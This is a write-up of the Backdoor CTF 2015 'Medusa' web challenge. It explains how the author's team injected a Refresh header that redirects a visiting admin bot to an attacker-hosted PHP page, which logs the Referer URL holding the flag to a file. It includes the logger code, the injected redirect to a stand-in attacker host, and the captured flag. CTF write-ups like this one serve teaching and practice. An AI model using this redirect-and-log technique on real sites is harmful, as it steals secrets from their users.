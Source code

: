 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - Medusa Writeup"
date: 2015-04-03 01:06:09 +0430
comments: false
categories: ctf backdoor web
---
```


**Backdoor2015 Medusa Writeup**  
**Point = 100**  
**Category = Web**  
**Description : **  

> The html page you create will be visited by the backdoor admin with the flag.
>You can enter a fake flag to simulate the challenge.


>Get the flag at http://hack.bckdr.in/MEDUSA/

After We open the link that is provided in description we are welcomed with a form.you can send message with html code and after that admin will visit your page with the flag.

![alt text](http://up.ashiyane.org/images/nxcfynwxymxjqi2v4u7.png "Medusa Form")

Backdoor CTF admin add a hint and mention that they sent flag as post request

this is sample request that admin sent :

http://hack.bckdr.in/MEDUSA/view.php?id=ID&flag=FLAG

when you sent the message Medusa website create id for you.
you can visit your message with this id ( same as admin :D )

![alt text](http://up.ashiyane.org/images/wu0fm2e5n6shme48fj58.png "Message Read")

we test different method to get the flag value from post request with PHP or JavaScript in our page but we see error or blank page.

>after some investigation our team found answer !!!

we can redirect admin to another page and get the flag

but if they sent request as post cant log the value in second page.so thinking to Referer attribute in the header.

write some code to get and save the Referer in the text file when admin redirect to our PHP page :
Server.php

```
<?php
$ref = $_SERVER['HTTP_REFERER'];
file_put_contents("flag.txt",$ref);
?>```

 > and sent this code as our page to Medusa form :
```
---
location: http://Attackerwebsite.com/server.php
---
Can you get the **flag**?
```
but after admin visit the link flag.txt is empty !!!

no Referer sent to PHP page...

we test several time ( for this challenge or local tests ) and same result,no Referer save in flag.txt

after some research we found out with this kind of header redirection we cant get Referer and we should change that.

```
---
Refresh: 0; url=http://Attackerwebsite.com/server.php
---
Can you get the **flag**?

```

and guess what?
> we have Referer Link in flag.txt :D



[Referer Link With Flag!](http://hack.bckdr.in/MEDUSA/view.php?flag=6bbaf4e1d3af423dd6c5a03c21c2a35c075392861709f2e896a27ae1f57d30c5&id=d61d051c6e741595491c)

and now you have 100 point :D

WriteUp By Fr0nk


